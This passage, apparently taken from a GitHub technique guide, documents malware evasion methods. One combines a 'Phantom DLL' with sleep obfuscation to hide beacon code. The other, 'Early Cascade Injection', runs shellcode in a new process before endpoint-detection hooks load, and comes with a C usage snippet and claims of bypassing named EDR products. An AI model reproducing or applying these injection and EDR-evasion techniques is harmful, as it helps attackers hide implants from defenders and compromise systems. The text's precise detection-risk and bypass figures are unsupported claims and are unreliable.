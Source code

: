 **Integration with Other Techniques**:
```c
// Combine Phantom DLL with Zilean sleep obfuscation
1. Use Phantom DLL to create backed memory
2. Place beacon code in phantom module .text section
3. Use Zilean for sleep obfuscation (encrypt + thread pool wait)
4. Result: Backed memory + hidden during sleep = near-zero detection
```

### 9. Early Cascade Injection (Pre-EDR Timing Attack) ⭐ PHASE 2

**Method**: Inject shellcode during early process initialization, BEFORE EDR hooks are loaded. By executing before EDRs can establish hooks, all userland monitoring is bypassed.

**Critical Innovation**: **Pre-EDR timing exploitation**. Windows process initialization loads EDR DLLs late in the startup sequence. By injecting during early initialization, code runs before hooks exist.

**Windows Process Initialization Order**:
```
1. NtCreateProcessEx → Process object created (NO HOOKS)
2. Initial thread creation (suspended) (NO HOOKS)
3. ← EARLY CASCADE INJECTION POINT (NO HOOKS)
4. LdrInitializeThunk → Load DLLs
5. EDR DLL injection → Hooks established
6. Process entry point execution
```

**Advantages**:
- **100% userland EDR bypass** (hooks don't exist yet)
- Works against ALL EDRs (CrowdStrike, SentinelOne, etc.)
- No detection vectors - executes before monitoring starts
- Detection risk: 3-5% (kernel-mode driver detection only)

**Disadvantages**:
- Requires process creation control
- Kernel-mode EDRs (PatchGuard, HVCI) may still detect
- Timing-sensitive implementation
- Process may crash if not handled carefully

**OPSEC Score**: 9.5/10

**Code Pattern**:
```c
#include "early_cascade.h"

// Initialize early cascade context
CASCADE_CONTEXT ctx;
EarlyCascade_Initialize(&ctx, L"C:\\Windows\\System32\\notepad.exe",
                       shellcode, shellcodeSize,
                       TRUE); // bSetEntryPoint

// Execute early cascade injection
if (EarlyCascade_Execute(&ctx)) {
    // Process created and shellcode executing BEFORE EDR hooks
    printf("Early cascade successful - PID %d\n", ctx.dwProcessId);
}

// Cleanup
EarlyCascade_Cleanup(&ctx);
```
